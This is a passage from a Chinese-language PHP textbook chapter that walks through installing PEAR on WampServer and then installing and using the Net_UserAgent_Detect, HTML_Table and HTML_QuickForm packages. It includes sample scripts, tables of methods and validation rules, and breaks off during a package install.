> 撰写本文时，尚未提供 PHP 5.3 版本的 WampServer，因此本节中的所有路径都包含 php5.2.6 文件夹。如果 WampServer 随附 PHP 5.3，请将路径更改为包含 php5.3.x 而非 php5.2.6。

在该文件夹中，应该有一个名为 go-pear.bat 的文件。输入其名称并按 Enter 键运行此批处理文件：

```
go-pear.bat
```

批处理文件会询问您一些关于配置 PEAR 的问题。通常只需按 Enter 键即可接受默认值。批处理程序随后会安装并设置 PEAR，显示类似以下内容的消息：

```
C:\wamp\bin\php\php5.2.6>go-pear.bat
Are you installing a system-wide PEAR or a local copy?
(system|local) [system] :
```

以下是新 PEAR 安装的建议文件布局。要更改各个位置，请输入目录前面的数字。输入 'all' 可更改所有位置，或直接按 Enter 键接受这些位置。

- 1. 安装基目录 ($prefix) : C:\wamp\bin\php\php5.2.6
- 2. 处理用临时目录 : C:\wamp\bin\php\php5.2.6\tmp
- 3. 下载用临时目录 : C:\wamp\bin\php\php5.2.6\tmp
- 4. 二进制文件目录 : C:\wamp\bin\php\php5.2.6
- 5. PHP 代码目录 ($php_dir) : C:\wamp\bin\php\php5.2.6\pear
- 6. 文档目录 : C:\wamp\bin\php\php5.2.6\docs
- 7. 数据目录 : C:\wamp\bin\php\php5.2.6\data
- 8. 用户可修改的配置文件目录 : C:\wamp\bin\php\php5.2.6\cfg
- 9. 公共 Web 文件目录 : C:\wamp\bin\php\php5.2.6\www
- 10. 测试目录 : C:\wamp\bin\php\php5.2.6\tests
- 11. 配置文件名 : C:\WINDOWS\pear.ini
- 12. CLI php.exe 路径 : C:\wamp\bin\php\php5.2.6

```
1-12, 'all' or Enter to continue:
Beginning install...
Configuration written to C:\WINDOWS\pear.ini...
Initialized registry...
Preparing to install...
installing phar://go-pear.phar/PEAR/go-pear-tarballs/Archive_Tar-1.3.2.tar...
installing phar://go-pear.phar/PEAR/go-pear-tarballs/Console_Getopt-1.2.3.tar...
installing phar://go-pear.phar/PEAR/go-pear-tarballs/PEAR-1.7.1.tar...
installing phar://go-pear.phar/PEAR/go-pear-tarballs/Structures_Graph-1.0.2.tar...
pear/PEAR can optionally use package "pear/XML_RPC" (version >= 1.4.0)
install ok: channel://pear.php.net/Archive_Tar-1.3.2
install ok: channel://pear.php.net/Console_Getopt-1.2.3
install ok: channel://pear.php.net/Structures_Graph-1.0.2
install ok: channel://pear.php.net/PEAR-1.7.1
PEAR: Optional feature webinstaller available (PEAR's web-based installer)
PEAR: Optional feature gtkinstaller available (PEAR's PHP-GTK-based installer)
PEAR: Optional feature gtk2installer available (PEAR's PHP-GTK2-based installer)
PEAR: To install optional features use "pear install pear/PEAR#featurename"
```

** 警告！在 C:\wamp\bin\php\php5.2.6 发现旧版本，请将其删除，或确保使用新的 c:\wamp\bin\php\php5.2.6\pear.bat 命令

The 'pear' command is now at your service at c:\wamp\bin\php\php5.2.6\pear.bat

** 'pear' 命令当前不在您的 PATH 中，因此您需要 ** 使用 'c:\wamp\bin\php\php5.2.6\pear.bat'，直到将 ** 'C:\wamp\bin\php\php5.2.6' 添加到 PATH 环境变量中。

无需参数运行它以查看可用操作，尝试 'pear list' 查看已安装的包，或使用 'pear help' 获取帮助。

有关 PEAR 的更多信息，请参阅：
http://pear.php.net/faq.php
http://pear.php.net/manual/

感谢使用 go-pear！

```
* WINDOWS ENVIRONMENT VARIABLES *
For convenience, a REG file is available under C:\wamp\bin\php\php5.2.6\PEAR_ENV.reg .
This file creates ENV variables for the current user.

Double-click this file to add it to the current user registry.

Press any key to continue ...

C:\wamp\bin\php\php5.2.6>
```

根据批处理文件的输出提示，建议打开 Windows 资源管理器并双击文件夹中的 PEAR_ENV.reg 注册表文件，以设置各种 Windows 环境变量。这样在安装和使用 PEAR 包时会更加方便。

现在可以通过输入以下命令测试 Windows 上的 PEAR 安装：

```
pear
```

然后按 Enter 键。与 Ubuntu 和 Mac OS X 一样，屏幕上应该会出现可用命令列表。

## 安装包

现在您已设置并验证了 PEAR，可以使用包管理器安装 PEAR 包。首先安装一个名为 Net_UserAgent_Detect 的简单包；您可以使用此包来识别访问您网站的每位访客所使用的浏览器类型和版本。

要安装包，请像前几节中所述那样运行包管理器，在命令行中添加 install 命令，后跟要安装的包名。例如，在 Ubuntu 上，只需键入：

```
pear install Net_UserAgent_Detect
```

然后按 Enter 键。如果一切顺利，包管理器应下载并安装包，显示类似以下内容的输出：

```
$ pear install Net_UserAgent_Detect
downloading Net_UserAgent_Detect-2.5.0.tgz ...
Starting to download Net_UserAgent_Detect-2.5.0.tgz (11,343 bytes)
.....done: 11,343 bytes
install ok: channel://pear.php.net/Net_UserAgent_Detect-2.5.0
$
```


PEAR 包通常安装在 PEAR 路径下的文件夹中：

- /usr/share/php 如果你正在运行 Ubuntu
- C:\wamp\bin\php\php5.2.6\PEAR 或类似路径 如果你正在运行 WampServer
- /Applications/MAMP/bin/php5/lib/php 或类似路径 如果你正在运行 MAMP

你还应该在这个路径中找到一个 doc 文件夹。大多数 PEAR 包都带有文档和示例，安装包后，你可以在这个文件夹中找到它们。此外，PEAR 网站包含大多数包的文档；要访问它，请找到包页面，然后单击页面上的文档链接。

根据你的设置和操作系统，你可能需要管理员或 root 用户权限才能安装 PEAR 包。这是因为 PEAR 路径通常只能由具有管理权限的用户写入。在 Ubuntu、Mac OS X 和其他类 UNIX 系统上，如果需要管理权限，你通常可以使用 sudo 来安装包（例如，`sudo pear install Net_UserAgent_Detect`）。

如果你在共享服务器上工作且没有 root 访问权限，你仍然可以将 PEAR 包安装到共享 Web 空间中。如果你有服务器的 SSH 访问权限，可以通过这种方式安装 PEAR。如果你只有 FTP 访问权限，可以使用一个名为 PEAR_RemoteInstaller 的优秀工具，它通过 FTP 安装包。了解如何通过 SSH 或 PEAR_RemoteInstaller 进行安装，请访问 http://pear.php.net/manual/en/installation.shared.php。

## 安装依赖项

一些 PEAR 包需要其他包才能工作。这些包称为依赖项。默认情况下，PEAR 只安装你在命令行中指定的包（或包）。但是，你可以通过在命令行中添加 --alldeps 选项，让 PEAR 同时安装任何依赖项。例如：

```
pear install --alldeps Net_UserAgent_Detect
```

--alldeps 还会安装与你正在安装的包相关但不是包正常工作所必需的可选包。如果你认为这超出了你的需求，可以使用 --onlyreqdeps 仅安装所需的依赖项。

## 卸载包

卸载 PEAR 包和安装一样简单。只需运行包管理器并使用 uninstall 命令，后跟要卸载的包名称即可：

```
$ pear uninstall Net_UserAgent_Detect
uninstall ok: channel://pear.php.net/Net_UserAgent_Detect-2.5.0
$
```

## 使用 PEAR 包

要在脚本中使用 PEAR 包，你首先需要在脚本中包含包文件，然后根据需要访问包的类和方法。

如前所述，PEAR 包文件安装在 PEAR 路径中。通常，你的 PHP include 路径包含 PEAR 路径等。这意味着你可以简单地通过引用相对于 PEAR 路径的包文件路径来包含 PEAR 包。

例如，Net_UserAgent_Detect 包是通过包含文件 Net/UserAgent/Detect.php 来访问的：

```
require_once ( "Net/UserAgent/Detect.php" );
```

然后你可以使用以下命令创建一个新的 Net_UserAgent_Detect 对象：

```
$detect = new Net_UserAgent_Detect();
```

一般来说，要获取包文件的路径，请将包名中的任何下划线 (_) 替换为斜杠 (/) 并在末尾添加 .php。

## 试一试：检测访问者的浏览器

既然你知道如何安装和访问 PEAR 包，试着编写一个使用包的脚本。在此示例中，你将使用 Net_UserAgent_Detect 包编写一个简单的“浏览器嗅探器”脚本，以显示用户的浏览器名称和操作系统名称。

首先，如果尚未安装，请按照上一部分中的说明安装 Net_UserAgent_Detect 包。例如：

```
pear install --alldeps Net_UserAgent_Detect
```

现在将以下脚本保存为文档根目录中的 browser_sniffer.php。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Browser Information</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Browser Information</h1>

<?php
require_once ( "Net/UserAgent/Detect.php" );

$detect = new Net_UserAgent_Detect();
echo "<p>You are running " . $detect->getBrowserString();
echo ". Your operating system is " . $detect->getOSString() . ".</p>";
?>
</body>
</html>
```

通过在 Web 浏览器中访问其 URL 来运行脚本。你应该看到类似图 15-1 的结果。


图 15-1

## 它是如何工作的

这个简单的脚本首先使用标准 XHTML 页面标题，然后包含 Net_UserAgent_Detect 包：

```
require_once( "Net/UserAgent/Detect.php" );
```

接着它创建一个新的 Net_UserAgent_Detect 对象：

```
$detect = new Net_UserAgent_Detect();
```

Net_UserAgent_Detect 类包含许多不同的方法，用于提取浏览器信息。在此脚本中，getBrowserString() 方法用以检索访问者的浏览器名称和版本作为文本字符串，而 getOSString() 则被调用以返回访问者的操作系统作为字符串。这些字符串随后在页面中显示：

```
echo "<p>You are running " . $detect->getBrowserString();
echo ". Your operating system is " . $detect->getOSString() . ".</p>";
```

## 使用 HTML_Table 包创建 HTML 表

既然你已经安装并使用了一个基本的 PEAR 包，不妨尝试稍微复杂一点的内容。HTML_Table 是一个允许你以编程方式生成 HTML 表的包，而不需要直接输出 HTML 标记。这不仅能让 PHP 代码更整洁，还能让你专注于 PHP 方面，而无需纠结于 HTML。它还让你的脚本可以在呈现之前随时返回并更改表；例如，你可以在以后向表中添加新行或新列。

首先要做的是安装该包。HTML_Table 依赖于另一个 PEAR 包 HTML_Common 来完成其工作，因此你还需要确保 HTML_Common 已安装。最简单的方法是在安装 HTML_Table 时包含 --alldeps 选项。

继续使用适合你设置的技术（如前一章中所述）安装 HTML_Table 和 HTML_Common 包。例如：

```
$ pear install --alldeps HTML_Table
downloading HTML_Table-1.8.2.tgz ...
Starting to download HTML_Table-1.8.2.tgz (16,988 bytes)
.....done: 16,988 bytes
downloading HTML_Common-1.2.4.tgz ...
Starting to download HTML_Common-1.2.4.tgz (4,519 bytes)
...done: 4,519 bytes
install ok: channel://pear.php.net/HTML_Common-1.2.4
install ok: channel://pear.php.net/HTML_Table-1.8.2
$
```

你可以在 PEAR 网站（http://pear.php.net/package/HTML_Table/docs）上找到 HTML_Table 的文档，并且在 PEAR 路径的 doc/HTML_Table/docs 文件夹中应该有一些示例脚本，展示如何使用 HTML_Table。以下是 HTML_Table 最重要方法的快速概览：

| 方法 | 描述 |
|---|---|
| HTML_Table( $attrs, $tabOffset, $useTGroups ) | HTML_Table 构造函数。所有三个参数都是可选的。$attrs 是一个数组，包含要添加到开头 `<table>` 标记的 HTML 属性（作为名称/值对）。$tabOffset 指定缩进表格标记的制表符数量（默认为零）。$useTGroups 指定是否在表格中使用 thead、tfoot 和 tbody 元素（默认为 false，即不使用）。 |
| `addRow( $contents, $attrs, $type, $inTR, $body )` | 向表格添加一行单元格。`$contents` 将行数据作为索引数组保存，其中每个元素是单个单元格的数据。可选的 `$attrs` 参数包含要应用到行的属性，可选的 `$type` 参数可以是 "th"（用于标题单元格）或 "td"（用于数据单元格），默认为 "td"。将可选的 `$inTR` 参数设置为 `true` 以将属性应用到 `tr` 元素而不是 `td`/`th` 元素（默认）。最后，如果你正在使用 `tbody` 元素，请将 `tbody` 组号作为 `$body` 参数指定。（使用 `addBody()` 添加新表格主体——详情请参阅在线文档。） |
| `addCol( $contents, $attrs, $type, $body )` | 添加一列单元格。参数的工作方式与 `addRow()` 相同。 |
| `altRowAttributes( $start, $attrs1, $attrs2, $inTR, $body )` | 允许你为每隔一行表格行设置不同的属性，以便创建交替行样式。`$start` 是开始交替的行索引，`$attrs1` 和 `$attrs2` 是关联数组或字符串，包含要应用到每一行交替行的属性。可选的 `$inTR` 和 `$body` 参数的工作方式与 `addRow()` 中的相同。 |
| `setCellContents( $row, $col, $contents, $type, $body )` | 允许你设置或更改表格中任意单元格的内容。单元格由 `$row` 和 `$col`（从零开始的数值索引）指定，`$contents` 包含要放置在单元格中的字符串。可选的 `$type` 和 `$body` 参数的工作方式与 `addRow()` 中的相同。 |
| `setHeaderContents( $row, $col, $contents, $body )` | 允许你设置或更改标题单元格。其工作方式与 `setCellContents()` 类似。 |
| `setAutoGrow( $grow, $body )` | 当 `$grow` 设置为 `true` 时，启用自动增长。这意味着，每当你使用 `setCellContents()` 或 `setHeaderContents()` 来填充不存在的单元格时，会根据需要创建空单元格以填充现有单元格和新单元格之间的差距。`$grow` 的默认值为 false。可选的 `$body` 参数的工作方式与 `addRow()` 中的对应参数相同。 |


| 方法 | 描述 |
|---|---|
| setAutoFill( $fill, $body ) | 此函数指示 HTML_Table 在新创建的空表格单元格中预填充字符串值。$fill 是在创建空单元格时要插入的字符串。可选的 $body 参数的工作方式与 addRow() 中的对应参数相同。 |
| toHtml() | 返回用于显示表格的 HTML 标记。创建表格后调用此方法以检索用于插入到网页中的 HTML。 |

可以在 http://pear.php.net/manual/en/package.html.html-table.php 上找到 HTML_Table 方法的完整列表。

要创建表格，首先创建一个新的 HTML_Table 对象来存储表格数据和其他设置，然后调用该对象的各种方法来添加数据单元格、格式化表格等。完成后，调用该对象的 toHtml() 方法来检索用于显示表格的标记。

## 试一试：使用 HTML_Table 显示斐波那契数字

第 4 章介绍了一个使用循环显示斐波那契数列前几个数字的脚本。这些数字是通过直接输出表格的 HTML 标记在 HTML 表中显示的。

在本示例中，你将重写此脚本以使用 HTML_Table 生成标记。将以下脚本保存为文档根目录下的 fibonacci2.php。

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Fibonacci sequence using HTML_Table</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
th { text-align: left; background-color: #999; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
</style>
</head>
<body>
<h2>Fibonacci sequence using HTML_Table</h2>
<?php
require_once ( "HTML/Table.php" );
$attrs = array( "cellspacing" => 0, "border" => 0, "style" => "width: 20em;
border: 1px solid #666;" );
$table = new HTML_Table( $attrs );
$table->addRow( array( "Sequence #", "Value" ), null, "th" );

$iterations = 10;

$num1 = 0;
$num2 = 1;

$table->addRow( array( "F<sub>0</sub>", "0" ) );
$table->addRow( array( "F<sub>1</sub>", "1" ) );

for ( $i=2; $i <= $iterations; $i++ )
{
    $sum = $num1 + $num2;
    $num1 = $num2;
    $num2 = $sum;
    $table->addRow( array( "F<sub>$i</sub>", $num2 ) );
}

$attrs = array( "class" => "alt" );
$table->altRowAttributes( 1, null, $attrs, true );
echo $table->toHtml();
?>
</body>
</html>
```

运行脚本后，你应该会看到一个与第 4 章脚本生成的页面大致相同的页面。图 15-2 显示了结果。


图 15-2

## 工作原理

创建 XHTML 页面标题（包括用于设置表格样式的其他 CSS 规则）后，脚本会引入 HTML_Table PEAR 包：

```
require_once ( "HTML/Table.php" );
```

接下来，脚本为打开的 `<table>` 标签设置一个属性关联数组，然后使用这些属性创建一个新的 HTML_Table 对象：

```
$attrs = array( "cellspacing" => 0, "border" => 0, "style" => "width: 20em;
border: 1px solid #666;" );
$table = new HTML_Table( $attrs );
```

然后通过调用对象的 addRow() 方法并传入单元格数据数组来创建两单元格的表头行。请注意，$type 参数设置为 "th" 以确保创建表头单元格：

```
$table->addRow( array( "Sequence #", "Value" ), null, "th" );
```

脚本的其余部分与第 4 章的脚本非常相似，只是调用 HTML_Table 方法取代了旧的 HTML 标记。在设置迭代次数和两个数字变量后，将创建表格的前两个非标题行：

```
$table->addRow( array( "F<sub>0</sub>", "0" ) );
$table->addRow( array( "F<sub>1</sub>", "1" ) );
```

在循环中，新行会再次通过调用 addRow() 添加到表格中：

```
$table->addRow( array( "F<sub>$i</sub>", $num2 ) );
```

循环结束后，将调用 altRowAttributes() 方法来设置交替表格行。从标题行之后的行开始计算，每隔一行将分配 CSS 类“alt”：

```
$attrs = array( "class" => "alt" );
$table->altRowAttributes( 1, null, $attrs, true );
```

最后，只需调用表格对象的 toHtml() 方法来显示表格标记：

```
echo $table->toHtml();
```

从本示例可以看出，使用 HTML_Table 创建表格是多么容易。生成的 PHP 代码也简洁且易于修改。此外，一旦开始使用 HTML_Table 方法（如 setAutoGrow() 和 setCellContents()），你就可以在几行代码中创建 — 并修改 — 相当复杂的表格。

## 使用 HTML_QuickForm 轻松创建 Web 表单

正如 HTML_Table 允许你以编程方式创建 HTML 表格（从而使代码简洁灵活）一样，HTML_QuickForm 包提供了一个用于创建 Web 表单的类，无需在脚本中包含一行 HTML。不仅如此，HTML_QuickForm 还可以处理其创建的表单，使你免于编写（和测试）自己的验证、过滤和错误报告代码。

在以下各节中，你将简要了解 HTML_QuickForm 包中可用的功能，然后使用 HTML_QuickForm 的强大功能创建一个会员表单脚本。

### 安装 HTML_QuickForm

HTML_QuickForm 的安装与你预期的大致相同。例如，在 Ubuntu 上，只需运行 `pear install --alldeps HTML_QuickForm`：

```
$ pear install --alldeps HTML_QuickForm
downloading HTML_QuickForm-3.2.10.tgz ...
Starting to download HTML_QuickForm-3.2.10.tgz (101,851 bytes)
.................done: 101,851 bytes
downloading HTML_Common-1.2.4.tgz ...
Starting to download HTML_Common-1.2.4.tgz (4,519 bytes)
...done: 4,519 bytes
install ok: channel://pear.php.net/HTML_Common-1.2.4
install ok: channel://pear.php.net/HTML_QuickForm-3.2.10
$
```

安装后，你应该会发现 PEAR 文件夹中的 doc/HTML_QuickForm/docs/ 文件夹内有一些示例脚本。你也可以在 http://pear.php.net/manual/en/package.html.html-quickform.php 上阅读 HTML_QuickForm 的完整文档。

### 使用 HTML_QuickForm

要使用 HTML_QuickForm，首先创建一个新的 HTML_QuickForm 对象，然后调用各种方法将元素（如字段和标签）添加到表单中。你还可以添加验证规则，以确保每个字段输入的数据正确，并添加过滤器以从每个字段中删除不可接受的数据。然后，你可以调用各种方法来验证表单、处理表单或在页面上显示表单（包括要向用户显示的任何错误消息）。

以下是 HTML_QuickForm 类的一些最有用的方法：

| 方法 | 描述 |
| :--- | :--- |
| `HTML_QuickForm (<br>$formName, $method,<br>$action, $target, $attrs,<br>$trackSubmit )` | `HTML_QuickForm` 构造函数。所有参数均为可选。<br><br>`$formName` 是表单的名称，包含在 `<form>` 标签的 name 属性中。`$method` 是表单发送方法（"get" 或 "post"，默认为 "post"）。`$action` 是表单的 action 属性——即发送表单的 URL。留空以将表单发送回当前脚本。<br><br>`$target` 是 target 属性，它允许你例如在新窗口中打开表单处理程序 URL。`$attrs` 是一个 HTML 属性数组（作为名称/值对），用于添加到打开的 `<form>` 标签中。<br><br>最后，如果 `$trackSubmit` 设置为 `true`，则会向表单添加一个隐藏字段以跟踪其是否已提交。默认值为 `false`。 |
| `addElement()` | 将元素添加到表单，并返回创建的元素对象。需要传入的参数取决于你要创建的元素。例如，要添加一个名为 "age"、标签为 "Your Age" 的文本输入控件，你可以编写：`$form->addElement( "text", "age", "Your Age")`。你也可以传入一个使用 `createElement()` 创建的 `HTML_QuickForm_element` 对象。 |
| `createElement()` | 创建并返回一个作为 `HTML_QuickForm_element` 对象的表单元素。然后可以将此元素传递给 `addElement()` 以将其添加到表单中，或传递给 `addGroup()` 以将其添加到表单中的一个组中。需要传入的确切参数取决于你要创建的元素类型。 |
| `addGroup( $elements,<br>$name, $groupLabel,<br>$separator, $appendName )` | 将一组元素添加到表单。元素组允许你将一组元素视为单个元素。<br><br>它们对于在表单中直观地分组元素很有用，也适用于逻辑分组（例如，创建一组相关的单选按钮）。<br><br>`$elements` 是要添加的元素数组。`$name` 是组的名称，`$groupLabel` 是在表单中显示在组旁边的标签。`$separator` 是用于分隔组中元素的标记。将 `$appendName` 设置为 `true` 以在组中每个元素的名称中包含组名（例如，"myGroup[myElement]" 而不是仅 "myElement"）。此设置默认为 `false`。<br><br>除 `$elements` 外，所有参数均为可选。 |


| Method | Description |
| :--- | :--- |
| `addRule( $element, $message, $type, $format, $validation, $reset, $force )` | 将验证规则添加到名为 `$element` 的表单元素。`$message` 是在输入数据无效时显示在表单字段旁边的错误消息，`$type` 是要使用的规则类型（例如，"required" 用于检查字段是否包含数据，或 "alphanumeric" 用于检查字段中的数据是否为字母数字）。某些规则需要 `$format`（例如，"regex" 类型期望将正则表达式作为 `$format` 参数）。`$validation` 可以是 "server" 或 "client"。表单通常在 PHP 脚本中进行验证（即服务器端）。在此指定 "client" 时，`HTML_QuickForm` 还会在表单中包含 JavaScript 以进行额外的客户端验证。`$reset` 与 "client" `$validation` 设置协同工作；如果设置为 true，则在出现错误时将表单元素重置为其原始值。（默认值为 `false`。）最后，`$force` 会强制应用验证规则，即使相关元素不存在于表单中。默认值为 `false`；设置为 `true` 以强制验证。除 `$element`、`$message` 和 `$type` 外，所有参数均为可选（如果规则类型要求，则还包括 `$format`）。 |
| `applyFilter( $element, $filter )` | 将过滤器应用于元素数据。过滤器是一个回调函数。`$element` 是要过滤的元素，`$filter` 是回调名称。例如，要修剪名为 "username" 的表单字段中的空格，可以使用 `$form->applyFilter( "username", "trim" )`。要将所有字段通过过滤器，请使用特殊元素名称 `"__ALL__"`。您还可以编写自己的过滤器回调函数。 |
| `isSubmitted()` | 如果表单已由用户发送回脚本，则返回 `true`；如果这是首次显示表单，则返回 `false`。（仅在使用 `$trackSubmit` 设置为 `true` 创建表单时有效。） |
| `validate()` | 对提交的表单数据运行所有验证规则，如果表单有效则返回 `true`，否则返回 `false`。此外，错误消息会自动插入表单中，位于无效表单字段旁边。 |
| `process( $callback, $mergeFiles )` | 通过将表单数据传递名为 `$callback` 的函数来处理提交的表单。您需要自己创建此函数，它应期望一个包含提交的表单字段和值的关联数组。默认情况下，任何上传的文件也会传递给回调函数（通过将 `$mergeFiles` 设置为 `false` 来关闭此功能）。 |
| `toHtml()` | 返回用于显示表单的 HTML 标记。创建表单后调用此方法以检索要插入到网页中的 HTML。 |

## 第三部分：在实践中使用 PHP

默认情况下，HTML_QuickForm 可与 23 种不同的元素类型一起使用。所有元素都派生自 HTML_QuickForm_element 类。以下是最常见元素类型的列表，以及展示如何将元素添加到表单的代码。

您可以在 http://pear.php.net/manual/en/package.html.html-quickform.intro-elements.php 上找到 HTML_QuickForm 元素类型的完整列表。

| 元素类型 | 将元素添加到表单的代码 |
| :--- | :--- |
| button | $form->addElement( "button", "field name", "field value", $attrs ); |
| checkbox | $form->addElement( "checkbox", "field name", "field label", "text to display after checkbox", $attrs ); |
| file | $form->addElement( "file", "field name", "field label", $attrs ); |
| hidden | $form->addElement( "hidden", "field name", "field value", $attrs ); |
| image | $form->addElement( "image", "field name", "image URL", $attrs ); |
| password | $form->addElement( "password", "field name", "field label", $attrs ); |
| radio | $form->addElement( "radio", "field name", "field label", "text to display after button", "field value", $attrs ); |
| reset | $form->addElement( "reset", "field name", "field value", $attrs ); |
| select | $form->addElement( "select", "field name", "field label", array( "optionValue" => "optionLabel", "option2Value" => "option2Label", ... ), $attrs ); |
| submit | $form->addElement( "submit", "field name", "field value", $attrs ); |
| text | $form->addElement( "text", "field name", "field label", $attrs ); |
| textarea | $form->addElement( "textarea", "field name", "field label", $attrs ); |

可选的 $attrs 参数是要添加到元素标记的任何属性列表。它可以是关联数组的形式，也可以是简单字符串（例如 'name = "value" '）。

您可以看到，某些元素是使用值创建的（例如按钮，其值为按钮标签），而其他元素则是使用字段标签创建的（默认显示在字段左侧）。创建对象后，您始终可以通过调用元素对象的 setValue() 或 setLabel() 方法为字段设置自己的值或标签——例如：

```
$textArea = $form->addElement( "textarea", "field name", "field label",
    $attrs );
$textArea->setValue( "Default text" );
```

以下是一个使用 HTML_QuickForm 创建登录表单（不带任何验证或过滤）的简单示例脚本：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Simple HTML_QuickForm Example</title>
</head>
<body>
<h1>Simple HTML_QuickForm Example</h1>
<?php
require_once ( "HTML/QuickForm.php" );
$form = new HTML_QuickForm( "", "post", "", "", null, true );
$form->addElement( "text", "username", "Username" );
$password = $form->addElement( "password", "password", "Password" );
$password->setValue( "" );
$buttons = array();
$buttons[] = HTML_QuickForm::createElement( "submit", "submitButton", "Send Details" );
$buttons[] = HTML_QuickForm::createElement( "reset", "resetButton", "Reset Form" );
$form->addGroup( $buttons, null, null, "&nbsp;" );
if ( $form->isSubmitted() ) {
   echo "<p>Thanks for your details!</p>";
} else {
   echo $form->toHtml();
}
?>
</body>
</html>
```

显示页面标题后，脚本会包含 HTML/QuickForm.php 类文件，然后创建一个新的 HTML_QuickForm 对象，其 name 属性为空，method="post" 属性，action 和 target 属性为空，没有其他属性，并将 $trackSubmit 属性设置为 true，以便脚本可以检测表单何时已提交：

```
require_once ( "HTML/QuickForm.php" );
$form = new HTML_QuickForm( "", "post", "", "", null, true );
```

接下来，脚本向表单添加一个名为 "Username" 的用户名文本输入字段：

```
$form->addElement( "text", "username", "Username" );
```

还添加了一个名为 password 的密码输入字段，标签为 "Password"。通过将返回的元素对象存储在变量 $password 中，脚本随后可以将字段值设置为空字符串：

```
$password = $form->addElement( "password", "password", "Password" );
$password->setValue( "" );
```

这样做是个好主意，以防止如果重新显示表单，密码会被发送回浏览器（因此在页面源代码中可见）。

最后，创建了两个按钮：一个提交按钮和一个重置按钮。为了让这两个按钮并排显示，它们被放入一个元素组中，并由不间断空格分隔：

```
$buttons = array();
$buttons[] = HTML_QuickForm::createElement( "submit", "submitButton", "Send Details" );
$buttons[] = HTML_QuickForm::createElement( "reset", "resetButton", "Reset Form" );
$form->addGroup( $buttons, null, null, "&nbsp;" );
```

既然 $form 对象已创建并填充，脚本会检查表单是否已提交。如果已提交，则显示感谢消息；否则，通过调用 toHtml() 方法并输出结果来显示表单：

```
if ( $form->isSubmitted() ) {
   echo "<p>Thanks for your details!</p>";
} else {
   echo $form->toHtml();
}
```

### 使用验证规则

HTML_QuickForm 自带多种内置验证规则类型，或者您可以创建自己的。以下是可与 addRule() 方法一起使用的内置规则类型列表（如前面“使用 HTML_QuickForm”章节中所述）：

| 规则类型 | $format 参数的值 | 描述 |
| :--- | :--- | :--- |
| required | 不适用 | 值不得为空。 |
| maxlength | $max (整数) | 值的字符串长度不得超过 $max 个字符。 |
| minlength | $min (整数) | 值的字符串长度至少为 $min 个字符。 |
| rangelength | array( $min, $max )（整数） | 值的字符串长度必须介于 $min 和 $max 个字符之间。 |
| regex | $regex (字符串) | 值必须匹配正则表达式 $regex。 |
| email | $domainCheck (布尔值，默认：false) | 值必须是有效的电子邮件地址。将 $domainCheck 设置为 true 以使用 PHP checkdnsrr() 函数验证电子邮件域。 |
| lettersonly | 不适用 | 值只能包含字母。 |
| alphanumeric | 不适用 | 值只能包含字母和/或数字。 |


| 规则类型 | $format 参数的值 | 描述 |
|---|---|---|
| numeric | N/A | 值必须是数字。 |
| nopunctuation | N/A | 值不得包含标点字符。 |
| nonzero | N/A | 值必须是不以零开头的数字。 |
| compare | $comparisonType | 比较两个字段值（将元素名称的两元素数组作为第一个参数传递给 addRule()）。适用于检查两个密码字段是否匹配。$comparisonType 的允许值："eq" 或 "=="：值必须相同（默认设置）"neq" 或 "!="：值必须不同 "gt" 或 ">"：第一个值必须大于第二个 "gte" 或 ">="：第一个值必须大于或等于第二个 "lt" 或 "<"：第一个值必须小于第二个 "lte" 或 "<="：第一个值必须小于或等于第二个 |
| callback | $functionName | 运行名为 $functionName 的回调函数来执行检查。该函数应将要检查的值作为参数，如果值通过检查则返回 true，否则返回 false。 |
| uploadedfile | N/A | 文件必须已上传。（用于文件上传字段。） |
| maxfilesize | $max | 上传的文件长度不得超过 $max 字节。（用于文件上传字段。） |
| mimetype | $type | 上传的文件必须是 MIME 类型 $type。（用于文件上传字段。） |
| filename | $regex | 上传的文件名必须匹配正则表达式 $regex。（用于文件上传字段。） |

例如，您可以添加一条规则来检查提交的用户名字段不得超过十个字符：

```
$form->addRule( "username", "Username must be no longer than 10 characters", 'maxlength', 10 );
```

## 尝试一下：使用 HTML_QuickForm 的注册表单

为了展示 HTML_QuickForm 有多么强大和实用，在本示例中，您将使用 HTML_QuickForm 处理表单显示和验证，重写第 14 章中的 register.php 读书俱乐部注册脚本。

不过，在开始之前，请先安装一个名为 HTML_QuickForm_Renderer_Tablessless 的额外 PEAR 包。默认情况下，HTML_QuickForm 使用 HTML 表格来保存表单字段和标签，输出每个表单。不使用表格创建的 HTML 表单更灵活，也更容易重新设计样式。此外，HTML_QuickForm 生成的基于表格的表单不是有效的 XHTML。HTML_QuickForm_Renderer_Tablessless 是一个渲染器类，它替换默认的 HTML_QuickForm 渲染器，并生成符合 XHTML 标准、无表格的表单标记。

撰写本文时，HTML_QuickForm_Renderer_Tablessless 是一个测试版包，这意味着无法使用默认 PEAR 设置进行安装：

```
$ pear install --alldeps HTML_QuickForm_Renderer_Tablessless
Failed to download pear/HTML_QuickForm_Renderer_Tablessless within preferred
state "stable", latest release is version 0.6.1, stability "beta", use
"channel://pear.php.net/HTML_QuickForm_Renderer_Tablessless-0.6.1" to install
Cannot initialize 'channel://pear.php.net/HTML_QuickForm_Renderer_Tablessless',
invalid or missing package file
Package "channel://pear.php.net/HTML_QuickForm_Renderer_Tablessless" is not
valid
install failed
$
```

当您阅读本文时，可能会发现该包已不再是测试版，在这种情况下，您可以按常规方式安装——即，使用 pear install --alldeps HTML_QuickForm_Renderer_Tablessless。如果该包仍处于测试版，您可以通过明确指定频道来安装它，如下所示：

```
$ pear install --alldeps channel://pear.php.net/HTML_QuickForm_Renderer_
Tablessless-0.6.1
downloading HTML_QuickForm_Renderer_Tablessless-0.6.1.tgz ...
Starting to download HTML_QuickForm_Renderer_Tablessless-0.6.1.tgz (6,828
bytes)
